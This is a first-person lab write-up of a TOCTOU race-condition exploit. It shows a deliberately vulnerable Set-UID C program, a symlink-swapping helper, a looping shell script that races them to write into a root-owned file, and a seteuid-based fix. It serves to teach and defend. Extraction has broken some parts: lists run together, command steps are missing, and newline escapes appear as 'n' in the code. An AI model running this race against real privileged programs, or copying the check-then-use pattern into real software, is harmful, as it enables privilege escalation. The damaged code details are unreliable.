








In this security research project, I explored and exploited a Time-of-Check to Time-of-Use (TOCTOU) vulnerability—a critical class of race conditions that can allow unprivileged users to escalate privileges and modify protected system files.
The core issue: when a program checks if a user has permission to access a file, there exists a small but exploitable time window before that file is actually used. A malicious attacker can swap the target file during this window using symbolic links, causing the privileged program to operate on an unintended file. The impact is significant—with Set-UID binaries running as root, an attacker can write arbitrary data to system files like /etc/shadow.
A race condition occurs when multiple operations that should execute sequentially instead attempt to run simultaneously. The outcome depends on which operation completes last, making timing critical. In the context of TOCTOU:
access() system callfopen()In Unix systems, symbolic links (symlinks) point to file paths rather than containing the file data directly. An attacker can exploit the TOCTOU window by:
/etc/shadow)I developed and tested this exploit in the following environment:
access(), fopen(), symlink(), seteuid()I created a non-root user account on Kali Linux, as the default installation runs everything as root. This setup ensured I could properly test privilege escalation attacks.

I analyzed and compiled a C program intentionally vulnerable to TOCTOU attacks. The program serves as the target for exploitation:
/* vulnerable-program.c - Vulnerable to TOCTOU attack */
#include <stdio.h>
#include<unistd.h>
#include <string.h>
#define DELAY 50000
int main(int argc, char * argv[]){
char * fileName = argv[1];
char buffer[60];
int i;
FILE * fileHandler;
/* Get user input */
scanf("%50s", buffer);
if(!access(fileName, W_OK)) {
/* Simulate delay to widen the exploitation window */
for(i = 0; i < DELAY; i++) {
int a = i ^ 2;
}
/* Vulnerable window: file checked, now being used */
fileHandler = fopen(fileName, "a+");
fwrite("n", sizeof(char), 1, fileHandler);
fwrite(buffer, sizeof(char), strlen(buffer), fileHandler);
fwrite("n", sizeof(char), 1, fileHandler);
fclose(fileHandler);
} else {
printf("No permission n");
}
}
I compiled the program as root using Clang:

I then set the Set-UID bit to ensure it runs with elevated privileges. The Set-UID bit is critical—it allows an unprivileged user to run the program with root privileges, making the privilege escalation possible:

I created a protected file owned by root to serve as the attack target:

This passwd file simulates a sensitive system file that normally cannot be modified by unprivileged users.
To automatically create symbolic links during the exploitation window, I wrote a companion program:
/* symbolic-link.c - Rapid symlink creation */
#include <stdio.h>
#include<unistd.h>
#include <string.h>
int main(int argc, char * argv[]) {
unlink(argv[1]);
symlink("./passwd", argv[1]);
}
This program removes any existing file/symlink at the target location and creates a new symlink pointing to the protected file.

I developed a bash script to automate the exploitation process. Since the TOCTOU window is extremely narrow, I needed to execute the attack repeatedly until timing aligned correctly:
#!/bin/sh
# exploit.sh - Automated TOCTOU attack with retry logic
old=`ls -l passwd`
new=`ls -l passwd`
while [ "$old" = "$new" ]
do
rm passwdlocal
echo "This is a file that the user can overwrite" > passwdlocal
# Run both programs in parallel to race them
echo "TOCTOU-Attack-Success" | ./vulnerable-program passwdlocal &
./symbolic-link passwdlocal &
new=`ls -l passwd`
done
echo "STOP... The passwd file has been changed"
The script:
1. Creates a local file that the user can modify
2. Launches both the vulnerable program and symlink generator in parallel
3. Continuously monitors the protected passwd file for changes
4. Repeats until successful modification occurs
I ran the exploit script, and after multiple iterations, the attack succeeded:

The script executed numerous times before the timing aligned perfectly. During one iteration, my symlink creation occurred within the critical window between access() and fopen(), causing the vulnerable program to write data to the root-owned passwd file instead of the user's temporary file.
I implemented a robust mitigation by applying the principle of least privilege. The corrected program temporarily relinquishes root privileges before performing file operations:
/* vulnerable-program-fix.c - Mitigated version */
#include <stdio.h>
#include<unistd.h>
#include <sys/types.h>
#include <string.h>
#define DELAY 50000
int main(int argc, char * argv[]) {
char * fileName = argv[1];
char buffer[60];
int i;
FILE * fileHandler;
scanf("%50s", buffer);
if(!access(fileName, W_OK)) {
for(i = 0; i < DELAY; i++) {
int a = i ^ 2;
}
/* THE FIX: Drop to real user privileges */
seteuid(getuid());
fileHandler = fopen(fileName, "a+");
fwrite("n", sizeof(char), 1, fileHandler);
fwrite(buffer, sizeof(char), strlen(buffer), fileHandler);
fwrite("n", sizeof(char), 1, fileHandler);
fclose(fileHandler);
} else {
printf("No permission n");
}
}
By calling seteuid(getuid()), the program drops its effective user ID to match the real user ID, preventing it from accessing or modifying files the unprivileged user cannot access.
After recompiling the mitigated version and setting the Set-UID bit again, I re-ran my exploit:

The exploit script now ran indefinitely without succeeding:

The attack could no longer write to the protected file because the program, once it verified permissions, immediately dropped its elevated privileges before performing the actual file operation.
access(), fopen(), symlink(), seteuid(), getuid(), unlink()